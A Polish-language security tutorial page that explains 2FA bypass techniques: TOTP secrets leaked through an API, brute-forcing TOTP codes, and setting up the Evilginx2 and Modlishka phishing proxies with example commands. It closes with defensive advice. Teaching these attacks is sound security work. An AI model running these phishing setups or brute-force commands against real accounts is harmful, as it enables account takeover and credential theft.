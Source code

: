 ```yaml
---
id: "2fa-bypass"
title: "🔓 Ataki na uwierzytelnianie wieloskładnikowe (2FA Bypass)"
sidebar_position: 15
---
```


# 🔓 Ataki na uwierzytelnianie wieloskładnikowe (2FA Bypass)

Uwierzytelnianie wieloskładnikowe (2FA) ma na celu zwiększenie bezpieczeństwa użytkownika poprzez dodatkowy etap weryfikacji, np. kod SMS, aplikację TOTP (Time-Based One-Time Password) lub klucz U2F. Jednak różne implementacje 2FA mogą być podatne na obejście.

---

## 🎭 Ataki na TOTP (Time-Based One-Time Password)
TOTP to metoda, w której kody generowane są na podstawie zegara systemowego i tajnego klucza. Jeśli atakujący przejmie ten klucz, może generować poprawne kody 2FA.

### **1️⃣ Kradzież tajnego klucza TOTP**
Niektóre aplikacje mogą wyciekać sekretny klucz TOTP, np. poprzez:
- **Niezabezpieczone API** – wyciek klucza podczas rejestracji 2FA
- **Słabe zabezpieczenia aplikacji mobilnych** – ekstrakcja z aplikacji przez inżynierię wsteczną
- **Złamanie backupów konfiguracji** – klucz może być zapisany w bazie danych użytkownika

#### **1.1 Odczytanie klucza TOTP z API**
Jeśli aplikacja zwraca tajny klucz przez API, można go przechwycić w Burp Suite:
```http
GET /api/2fa/setup
Response: {"secret": "JBSWY3DPEHPK3PXP"}
```
Następnie klucz można wprowadzić do aplikacji Google Authenticator, aby generować poprawne kody.

#### **1.2 Atak bruteforce na TOTP**
TOTP generuje kody co 30 sekund, co daje atakującemu ograniczoną liczbę możliwych wartości (np. 1 000 000 kodów dla 6 cyfr). Niektóre aplikacje nie blokują zbyt wielu prób.
```bash
python totp_bruteforce.py --target example.com --user admin
```
Rozwiązanie: **Blokada po kilku nieudanych próbach oraz wykrywanie podejrzanych logowań**.

---

## 🎣 Bypass przy użyciu phishingu
Phishing to jedna z najczęściej wykorzystywanych metod do obejścia 2FA.

### **2️⃣ Atak na 2FA za pomocą narzędzia Evilginx**
Evilginx to narzędzie proxy MITM, które pozwala na przechwycenie kodów 2FA oraz sesji użytkownika.

#### **2.1 Konfiguracja ataku**
1. Uruchomienie Evilginx:
```bash
git clone https://github.com/kgretzky/evilginx2.git
cd evilginx2 && make install
```
2. Konfiguracja hosta phishingowego:
```bash
config domain phishing.example.com
```  
3. Uruchomienie ataku na Google:
```bash
phishlets enable google
phishlets hostname google phishing.example.com
```  
4. Atakujący wysyła ofierze link phishingowy.
5. Po zalogowaniu użytkownika Evilginx przechwytuje sesję i kod 2FA.

#### **2.2 Atak na 2FA za pomocą narzędzia Modlishka**
Alternatywnym narzędziem do przechwycenia 2FA jest **Modlishka**:
```bash
git clone https://github.com/drk1wi/Modlishka.git
cd Modlishka && go build
./Modlishka -config config.json
```
Użytkownik myśli, że loguje się do prawdziwej strony, ale Modlishka przechwytuje jego dane i kody 2FA.

---

## 🔐 Jak zabezpieczyć się przed 2FA Bypass?
✅ **Używaj kluczy U2F/FIDO zamiast TOTP** – nie można ich przechwycić przez phishing.
✅ **Wykrywaj anomalie logowania** – analiza geolokalizacji i nowych urządzeń.
✅ **Blokuj logowanie na nowych urządzeniach bez dodatkowej weryfikacji**.
✅ **Monitoruj ruch DNS i adresy URL** – wykrywanie fałszywych domen.
✅ **Edukacja użytkowników o zagrożeniach phishingowych**.

---

Ataki na 2FA są coraz częstsze i mogą prowadzić do przejęcia kont nawet w dobrze zabezpieczonych systemach. Kolejnym krokiem będzie analiza podatności **Ataki na API i WebSockets**! 🚀
